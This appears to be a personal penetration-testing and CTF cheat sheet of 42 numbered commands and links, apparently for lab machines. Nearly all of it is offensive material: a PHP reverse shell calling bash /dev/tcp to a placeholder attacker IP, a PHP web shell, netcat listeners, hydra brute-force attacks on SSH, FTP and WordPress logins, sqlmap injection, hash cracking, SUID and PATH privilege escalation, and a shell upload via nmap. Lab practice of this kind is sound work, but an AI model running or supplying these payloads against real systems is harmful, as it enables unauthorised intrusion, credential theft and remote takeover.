 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on the target machine
2. python3 -m http.server 80 - Setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
    the scan after the password is found.
12. sudo -l - command is used to list the sudo privileges of the current user.
13. sudo su - command is used to switch to the root user (superuser) by leveraging sudo privileges.
14. ls -la
15. hydra -L <wordlist> -P /usr/share/wordlists/amass/all.txt -e nsr ftp://<ftp>
16. hydra -l <username> -P /path/to/wordlist.txt <target> http-post-form "/textpattern/textpattern:username=^USER^&password=^PASS^:F=Login failed" -V -f
17. zip2john file.zip
18. <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
    ?>
19. find / -perm -u=s -type f 2>/dev/null
20. gobuster dir -u http://192.168.2.15 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php -t 20 -o gobuster_scan.txt
21. hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
22. nmap -p 80 192.168.0.181 --script http-put --script-args http-put.url='test/shell.php',http-put.file='shell.php' = for uploading a document.
23. curl -v -X OPTIONS HTTP://192.168.2.23 == for checking permissions on a webpage
24. cat /etc/passwd
25. uname -r
26. scp -P 22222 Summer@192.168.2.33:/home/Morty/journal.txt.zip /tmp == downloading a file via ssh
27. dirb http://192.168.2.35 Drupal.txt
28. find . -exec /bin/sh \; -quit == if find is SUID this can be used to escalate
29. smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.2.25 - smtp user enumeration
30. ffuf -u 'http://blackwidow/company/started.php?file=FUZZ' -w /home/kali/Downloads/LFI-LFISuite-pathtotest-huge.txt -c -ic -r -fs 0 == for bruteforcing LFI's in     a url
31. ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa stupiduser@192.168.2.38 == for older ssh login
32. sqlmap -u "http://192.168.2.38/phpmyadmin/" --data="pma_username=admin&pma_password=test" --level=5 --risk= --dbms=mysql --technique=B --batch = for sql            injection brute force
33. john --wordlist=rockyou.txt hash.txt == john the ripper hash crack command
34. https://ctftoolkit.com/enumeration == assists with enumeration
35. https://emn178.github.io/online-tools/sha1.html == for encryption and decryption
36. https://copy.sh/brainfuck/ == Brainfuck interpreter
37. export PATH=/tmp/:$PATH == The command export PATH=/tmp/:$PATH modifies your PATH environment variable
38. hydra -L new_wordlist1.txt -P rockyou.txt 192.168.2.22 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered" -V -f
39. hashcat -m 0 96781A607F4E9F5F423AC01F0DAB0EBD /home/kali/labs/rockyou.txt == hashcat 
40. https://highon.coffee/blog/reverse-shell-cheat-sheet/ == reverse shell cheat sheet
41. <?php system($_GET['cmd']); ?> == php reverse shell
42. https://hacktricks.boitatech.com.br/pentesting/pentesting-network == pentest notes
